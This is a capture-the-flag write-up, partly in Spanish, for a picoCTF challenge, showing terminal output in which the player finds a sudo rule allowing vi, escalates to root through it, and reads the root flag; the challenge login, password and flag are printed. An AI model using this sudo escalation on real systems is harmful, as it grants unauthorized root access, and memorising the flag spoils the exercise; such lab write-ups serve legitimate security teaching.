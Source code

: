 #### - **Descripción** 
¿Puedes leer archivos en el archivo raíz?

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.
Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 55354 picoplayer@saturn.picoctf.net`Password: `vCR2tuwCRm`Can you login and read the root file?
**Pista**
¿Que permisos tienes?

#### - **Solución** 
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi test

root@challenge:/home/picoplayer# whoami
root
root@challenge:/home/picoplayer# ls
root@challenge:/home/picoplayer# ls -la
total 28
drwxr-xr-x 1 picoplayer picoplayer    58 Feb 22 03:47 .
drwxr-xr-x 1 root       root          24 Aug  4  2023 ..
-rw------- 1 picoplayer picoplayer    52 Feb 22 03:45 .bash_history
-rw-r--r-- 1 picoplayer picoplayer   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoplayer picoplayer  3771 Feb 25  2020 .bashrc
drwx------ 2 picoplayer picoplayer    34 Feb 22 03:38 .cache
-rw-r--r-- 1 picoplayer picoplayer   807 Feb 25  2020 .profile
-rw------- 1 root       root       12288 Feb 22 03:47 .test.swp
root@challenge:/home/picoplayer# cat . 
./             ../            .bash_history  .bash_logout   .bashrc        .cache/        .profile       .test.swp      
root@challenge:/home/picoplayer# cat .test.swp 
3210#"! Utpadroot@challenge:/home/picoplayer# cd /root
root@challenge:~# ll
total 20
drwx------ 1 root root   43 Feb 22 03:45 ./
drwxr-xr-x 1 root root   75 Feb 22 03:45 ../
-rw------- 1 root root   60 Feb 22 03:45 .bash_history
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  768 Feb 22 03:45 .viminfo
root@challenge:~# cat .flag.txt 
picoCTF{uS1ng_v1m_3dit0r_ad091ce1}
root@challenge:~# 

picoCTF{uS1ng_v1m_3dit0r_ad091ce1}
